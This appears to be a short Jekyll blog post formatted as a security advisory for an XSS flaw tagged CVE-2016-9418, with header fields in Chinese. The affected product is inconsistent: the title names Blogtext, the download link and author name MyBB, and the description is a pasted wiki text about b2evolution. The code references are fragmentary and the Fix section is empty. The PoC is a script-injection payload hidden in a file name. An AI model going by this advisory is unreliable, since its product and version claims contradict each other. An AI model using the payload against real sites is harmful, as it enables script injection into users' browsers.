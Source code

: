 ```yaml
---
layout: post
title: XSS  in Blogtext version 3.7.6 [CVE-2016-9418]
---
```


发现者: 陈瑞琦 

发现日期: 2016-08-28

下载地址: [MyBB](https://mybb.com/versions/)

作者: MyBB

作者通知日期: 2016-08-29

作者联系手段: 

CVE-ID：CVE-2016-9418

**描述:**

b2evolutioe is a content and community management system written in PHP and backed by a MySQL database. It is distributed as free software under the GNU General Public License.
b2evolution originally started as a multi-user multi-blog engine when Fran?ois Planque forked b2evolution from version 0.6.1 of b2/cafelog in 2003.[2] A more widely known fork of b2/cafelog is WordPress. b2evolution is available in web host control panels as a "one click install" web app.[3](Wiki)

**细节:** 
./inc/html.php
`code`
<pre><code>
line 133 function lien_pagination()

line 142 $qstring = remove_url_param('p');
<pre><code>
./inc/util.php
`code`
<pre><code>
line 358 function remove_url_param($param)
<pre><code>
**PoC:**

test<img src="0" onerror="alert(1)">.php

**Fix:**

